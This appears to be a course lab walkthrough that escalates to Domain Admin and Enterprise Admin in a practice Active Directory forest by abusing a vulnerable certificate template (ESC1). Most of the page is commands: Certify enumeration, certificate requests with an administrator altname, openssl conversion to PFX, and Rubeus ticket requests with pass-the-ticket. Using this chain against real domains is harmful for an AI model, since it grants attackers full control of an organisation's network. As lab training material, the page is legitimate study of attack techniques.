 # 🪜 Find vulnerable templates w/ AD CS  to escalate to DA and EA

We can start by using the Certify tool to check for AD CS in moneycorp ->

```
C:\AD\Tools\Certify.exe cas
```

<figure><img src="../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

We can list all the templates using the following command. Going through the output we can find some interesting templates:

```
C:\AD\Tools\Certify.exe find
```

<figure><img src="../../.gitbook/assets/image (1162).png" alt=""><figcaption></figcaption></figure>

```
[snip]
CA Name : mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA
 Template Name : SmartCardEnrollment-Agent    
 Schema Version : 2
 Validity Period : 10 years
 Renewal Period : 6 weeks
 msPKI-Certificates-Name-Flag : SUBJECT_ALT_REQUIRE_UPN,
SUBJECT_REQUIRE_DIRECTORY_PATH
 mspki-enrollment-flag : AUTO_ENROLLMENT
 Authorized Signatures Required : 0
pkiextendedkeyusage : Certificate Request Agent     
 mspki-certificate-application-policy : Certificate Request Agent
 Permissions
 Enrollment Permissions
 Enrollment Rights : dcorp\Domain Users S-1-5-21-719815819-3726368948-3917688648-513    
[snip]
Template Name : HTTPSCertificates     
 Schema Version : 2
 Validity Period : 1 year
 Renewal Period : 6 weeks 
msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
[snip]
```

Now that we have the templates that we find interesting, we can try out for Privilege Escalation to DA and EA using ESC1

The template HTTPSCertificates looks interesting. Let's get some more information about it as it allows requestor to supply subject name:

<figure><img src="../../.gitbook/assets/image (1163).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1123</p></figcaption></figure>

```
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
```

what this means is that the HTTPSCertificates template grants enrollment rights to RDPUsers group and allows requestor to supply Subject Name. Recall that student613 is a member of RDPUsers group. This means that we can request certificate for any user as student613.

Now we can try to request a certificate for Domain Admin - Administrator:

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now let's Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to esc1.pem:

```
notepad C:\AD\Tools\esc1.pem
```

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

We need to convert it to PFX to use it. Use openssl binary on the student VM to do that. I will use SecretPass@123 as the export password ->

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx 
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's start by encoding "asktgt"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can check if we actually have DA privileges:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use similar method to escalate to Enterprise Admin privileges. Request a certificate for Enterprise Administrator - Administrator

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Save the certificate to esc1-EA.pem and convert it to PFX. I will use SecretPass@123 as the export password:

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-EA.pfx   
```

Encode asktgt and run the follwing command ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1-EA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

And check for EA privileges ->

```
winrs -r:mcorp-dc cmd /c  set username
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Need to go back on this process later on
{% endhint %}

Now let's try Privilege Escalation to DA and EA using ESC3
